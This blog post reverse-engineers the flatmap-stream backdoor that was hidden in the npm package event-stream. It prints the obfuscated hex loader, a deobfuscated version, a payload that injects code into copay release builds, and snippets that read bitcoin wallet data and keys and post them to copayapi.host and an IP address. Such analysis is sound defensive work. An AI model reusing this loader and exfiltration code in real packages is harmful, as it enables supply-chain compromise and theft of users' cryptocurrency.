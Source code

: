 ```yaml
---
title: Reversing flatmap-stream
date: '2019-01-13'
slug: '/reversing-flatmap-stream/'
excerpt: Taking a belated look at the backdoor flatmap-stream package
tags: ['javascript', 'reversing', 'security']
keywords: ['javascript', 'security', 'flatmap', 'stream']
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.

## Prettifying the code

```js
!(function() {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, 'hex').toString();
    }

    var n = r(e('2e2f746573742f64617461')),
      o = t[e(n[3])][e(n[4])];

    if (!o) return;

    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));

    var f = new module.constructor();

    (f.paths = module.paths), f[e(n[7])](a, ''), f.exports(n[1]);
  } catch (r) {}
})();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:

```js
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```js
module.exports = [
  '...truncated...',
  '...truncated...',
  '63727970746f',
  '656e76',
  '6e706d5f7061636b6167655f6465736372697074696f6e',
  '616573323536',
  '6372656174654465636970686572',
  '5f636f6d70696c65',
  '686578',
  '75746638',
];
```

After decoding and unobfuscating the code, we get

```js
!(function() {
  try {
    var r = require,
      t = process;
    function decode(r) {
      return Buffer.from(r, 'hex').toString();
    }

    // Get data
    var data = require('./test/data');
    // Get the package description, and exit early if it doesn't exist
    var packageDescription = process.env.npm_package_description;
    if (!packageDescription) {
      return;
    }

    // Decode the first payload with the npm package description
    var u = require('crypto').createDecipher('aes256', packageDescription);
    var firstPayload = u.update(data[0], 'hex', 'utf8');
    firstPayload += u.final('utf8');

    // Build a new module
    var f = new module.constructor();

    // Build a new module with the first and second payloads
    (f.paths = module.paths), f._compile(firstPayload, ''), f.exports(data[1]);
  } catch (r) {}
})();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload

```js
module.exports = function(e) {
  try {
    // Exit if specific args aren't in the command line
    if (!/build\\:.*\\-release/.test(process.argv[2])) return;

    // Same npm pack
    var packageDescription = process.env.npm_package_description,
      r = require('fs'),
      i =
        './node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js',
      // Get stats on ReedSolomonDecoder
      // Read file
      n = r.statSync(i),
      c = r.readFileSync(i, 'utf8'),
      // Create another cipher
      o = require('crypto').createDecipher('aes256', packageDescription),
      // Decrypt
      s = o.update(e, 'hex', 'utf8');
    s = '\\n' + (s += o.final('utf8'));

    // Write the payload into ReedSolomonDecoder, and reset utimes
    var a = c.indexOf('\\n/*@@*/');
    0 <= a && (c = c.substr(0, a)),
      r.writeFileSync(i, c + s, 'utf8'),
      r.utimesSync(i, n.atime, n.mtime),
      process.on('exit', function() {
        try {
          r.writeFileSync(i, c, 'utf8'), r.utimesSync(i, n.atime, n.mtime);
        } catch (e) {}
      });
  } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package.

## The second payload

After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n

```js
postToUrl('636f7061796170692e686f7374', e, n),
  postToUrl('3131312e39302e3135312e313334', e, n);
```

### Look for wallet files and send the wallet data to hosts above

```js
readFromFile('profile', function(e) {
  for (var t in e.credentials) {
    var n = e.credentials[t];
    // If livenet is the network, look in balanceCache files
    'livenet' == n.network &&
      readFromFile(
        'balanceCache-' + n.walletId,
        function(e) {
          var t = this;
          t.balance = parseFloat(e.balance.split(' ')[0]);
          ('btc' == t.coin && t.balance < 100) ||
            ('bch' == t.coin && t.balance < 1e3) ||
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            ((global.CSSMap[t.xPubKey] = !0),
            chunkAndPost('c', JSON.stringify(t)));
        }.bind(n)
      );
  }
});
```

### Extract wallet keys and send to hosts above

```js
var e = require('bitcore-wallet-client/lib/credentials.js');
// Extends getKeysFunc to send all the key information
// Also sends xPubKey previously set in the global var, and clears it
(e.prototype.getKeysFunc = e.prototype.getKeys),
  (e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
      global.CSSMap &&
        global.CSSMap[this.xPubKey] &&
        (delete global.CSSMap[this.xPubKey],
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost('p', e + '\\t' + this.xPubKey));
    } catch (e) {}
    return t;
  });
```

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.
